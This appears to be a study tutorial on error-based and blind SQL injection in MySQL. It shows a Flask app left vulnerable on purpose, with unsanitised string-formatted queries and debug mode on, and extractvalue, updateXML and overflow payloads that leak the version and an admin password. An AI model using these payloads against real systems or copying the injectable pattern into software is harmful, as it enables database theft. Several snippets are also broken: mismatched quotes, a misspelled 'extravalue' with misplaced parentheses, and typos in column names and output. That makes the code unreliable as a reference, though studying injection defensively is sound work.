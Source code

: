 ## Intro
Attacking method of the sql injection differs by how application works. Error based and Time based SQL Injection emerged to attack the application that hides the result of the query. Both attacking method have the same vulnerability method, but distinguished by how to judge the success of the attack. 

## Error Based SQL Injection
```python title:SQL_Injection
from flask import Flask, request
import pymysql

app = Flask(__name__)

def getConnection():
	return pymysql.connect(host='localhost', user='dream`, password='hack', db='dreamhack', charset='utf-8')

@app.route('/', methods=['GET'])
def index():
	username = request.args.get('username')
	sql = "Select username from users where usernane='%s'" %username

	conn = getConnection();
	curs = conn.cursor(pymysql.cursors.DictCursor)
	curs.execute(sql)
	rows = curs.fetchall()
	conn.close()
	
	if(rows):
		return "True"
	else:
		return "False"

app.run(host='0.0.0.0', port=8000, debug=True)
```
Looking at the code, the debug is on, the entry the user entered can be included in SQL query without further investigation, leading SQL Injection vulnerability. However, there is no code to print the SQL query result, just returning the result of the query execution, 

Application based on the Flask framework prints the reason of the error of the code with the debug mode activated. The attacker can collect various informations and data through the error messages. 

## Writing Attacking Code
In order to use the error in the application to attack, we need to make the error occur not before the queries run, but during the Runtime. 

Following is the most commonly used during the error based sql attack.
```SQL
SELECT extractvalue(1, concat(0x3a, version()))
/*
ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
*/
```
The information of the operating system is included in the error message. 

extractvalue() function extracts the data from the XML data passed as the first argument and using the XPATH passed as the second argument. 
If the second argument is not the correct XPATH, it prints out the error message indicating that the XPATH syntax error. 

Example
```
SELECT extractvalue('<a>test</a> <b>abcd</b>, '/a');

test
1 row in set
```
```
Select extractvalue(1, ':abcd');

ERROR 1105(HY000): XPATH syntax error: ':abcd'
# ":" XPATH should not start with :
```

## Application of the extractvalue
Using this function, it is possible to extract the information of the database. Following subquery allows us to retrieve the data of the database. (0x3a is :)

```
SELECT extravalue(1, concat(0x3a), SELECT password FROM users WHERE username='admin')));

ERROR 1105 (HY000): XPATH syntax error: ':Th1sispassword'
```

## Application of Error based SQL Injection
### MySQL
```
SELECT updateXML(null, concat(0x0a, version()), null);

/* 
ERROR 1105(HY000): XPATH syntax error: '
bersion...'
```

## Error based Blind SQL Injection
Method of using blind SQL Injection and the Error based SQL Injection together. It is possible to generate the error and extract the data depends on the result(True/false).

While Error based SQL Injection exploits data from the error message, affected by the printed result, however, Error based blind SQL only needs the fact whether the error occurred or not. 

SQL syntax if(condition, value if true, value if false)

```
Select if(1=1, 9e307 * 2, 0);
ERROR 1690(22003): DOUBLE value is out of range in (9e307*2)

Select if(1 = 0, 9e307*2, 0);
1 row in set (1 = 0 is false)
```

